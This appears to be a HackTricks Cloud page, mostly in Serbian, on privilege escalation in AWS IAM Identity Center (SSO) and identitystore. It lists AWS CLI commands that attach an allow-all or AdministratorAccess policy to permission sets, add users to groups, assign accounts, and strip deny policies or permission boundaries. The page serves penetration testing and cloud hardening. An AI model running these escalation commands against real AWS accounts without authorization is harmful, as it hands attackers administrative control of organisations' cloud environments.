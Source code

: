 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Za više informacija o AWS Identity Center / AWS SSO pogledajte:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Napomena da po **default-u**, samo **korisnici** sa dozvolama **iz** **Upravljačkog Naloga** mogu pristupiti i **kontrolisati IAM Identity Center**.\
Korisnici iz drugih naloga mogu to omogućiti samo ako je nalog **Delegirani Administrator.**\
[Pogledajte dokumentaciju za više informacija.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Reset Password~~

Lako rešenje za eskalaciju privilegija u ovakvim slučajevima bi bilo imati dozvolu koja omogućava resetovanje lozinki korisnika. Nažalost, moguće je samo poslati email korisniku da resetuje svoju lozinku, tako da bi vam bio potreban pristup korisnikovom emailu.

### `identitystore:CreateGroupMembership`

Sa ovom dozvolom moguće je postaviti korisnika unutar grupe tako da će naslediti sve dozvole koje grupa ima.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Napadač sa ovom dozvolom mogao bi da dodeli dodatne dozvole skupu dozvola koji je dodeljen korisniku pod njegovom kontrolom

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Napadač sa ovom dozvolom mogao bi dodeliti dodatne dozvole skupu dozvola koji je dodeljen korisniku pod njegovom kontrolom

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Napadač sa ovom dozvolom može dodeliti dodatne dozvole skupu dozvola koji je dodeljen korisniku pod njegovom kontrolom.

{% hint style="warning" %}
Da biste zloupotrebili ove dozvole u ovom slučaju, morate znati **ime korisničke upravljane politike koja se nalazi u SVE račune** koji će biti pogođeni.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Napadač sa ovom dozvolom mogao bi dodeliti Permission Set korisniku pod njegovom kontrolom za nalog.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Vraća STS kratkoročne akreditive za dati naziv uloge koji je dodeljen korisniku.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Međutim, potrebna vam je pristupna oznaka koju nisam siguran kako da dobijem (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Napadač sa ovom dozvolom može ukloniti asocijaciju između AWS upravljane politike i specificiranog skupa dozvola. Moguće je dodeliti više privilegija putem **uklanjanja upravljane politike (deny policy)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Napadač sa ovom dozvolom može ukloniti asocijaciju između korisničke upravljane politike i određenog skupa dozvola. Moguće je dodeliti više privilegija putem **uklanjanja upravljane politike (politika odbijanja)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Napadač sa ovom dozvolom može ukloniti dozvole iz inline politike iz skupa dozvola. Moguće je dodeliti **više privilegija putem odvajanja inline politike (politika odbijanja)**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Napadač sa ovom dozvolom može ukloniti Permission Boundary iz skupa dozvola. Moguće je dodeliti **više privilegija uklanjanjem ograničenja na Permission Set** datom iz Permission Boundary.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
